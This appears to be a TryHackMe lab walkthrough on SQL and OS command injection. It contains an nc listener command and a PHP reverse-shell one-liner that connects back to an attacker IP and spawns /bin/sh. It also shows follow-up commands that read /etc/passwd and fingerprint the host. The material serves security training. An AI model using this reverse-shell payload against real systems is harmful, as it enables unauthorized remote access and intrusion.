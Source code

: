 
## Day-1 Injection

**set up openvpn if now known about that go through openvpn room at tryhackme**

[OpenVPN](https://www.tryhackme.com/room/openvpn)

### SQL Injection

[SQL Injection](https://www.w3schools.com/sql/sql_injection.asp)

**Above is breif intro to sql injection**

[SQL Injection](https://www.guru99.com/learn-sql-injection-with-practical-example.html)

**SQL Injection is quite popular attack type and easy to work out**

### OS Command Injection

**Quite interesting and if we are able to setup reverse shell then it's in our hands**

[Command Injection](https://snyk.io/blog/command-injection/)

[OS Command Injection](https://www.whitehatsec.com/glossary/content/os-command-injection)

## Command Injection Practical

**Here we can learn that we should not keep passthru function and others which will execute the entered text directly because it might contain malacious code**

[passthru php](https://www.php.net/manual/en/function.passthru.php)

**So now here either we can use direct shell from the website mentioned over there or we can put commands from our Terminal let's try to do with our terminal**

**First go to your terminal and type**

```
nc -nlvp 4444
```

Here you can choose any port but 4444 easy .

**Next thing is about go to the website over there link given in the room and put below command in the window and click the button nothing will happen there but you will see now there is command shell opened in your nc opened terminal.**

```php
php -r '$sock=fsockopen("10.0.0.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

**Here in the above command use your tun0 ip add. in place of 10.0.0.1 and put nc listener**


What strange text file is in the website root directory?

```
ls
```

**listed files contain weird named file**

How many non-root/non-service/non-daemon users are there?

```
0
```

**execute**

```
cat /etc/passwd
```

**The above command lists out the users**

**and we see that their is no such user with given properties**

What user is this app running as?

```
whoami
```

**will tell you the current user**

What is the user's shell set as?

**Again go to /etc/passwd**

```
cat /etc/passwd
```
**And see what are the things written in front of your current id already found out with whoami**

What version of Ubuntu is running?

```
lsb_release -a
```

Print out the MOTD.  What favorite beverage is shown?

**search for motd in linux google it and you will come to know what it is**

Further you can locate the file motd
```
locate motd
```
